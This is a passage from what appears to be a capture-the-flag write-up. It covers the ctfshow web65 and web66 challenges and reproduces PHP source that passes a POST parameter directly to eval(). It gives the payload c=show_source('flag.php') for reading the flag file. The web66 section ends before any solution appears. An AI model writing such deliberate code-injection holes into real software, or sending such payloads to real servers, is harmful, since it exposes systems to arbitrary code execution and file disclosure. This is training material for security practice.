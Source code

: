 pyload:c=show_source('flag.php');

### web65

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

c=show_source('flag.php');

### web66

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
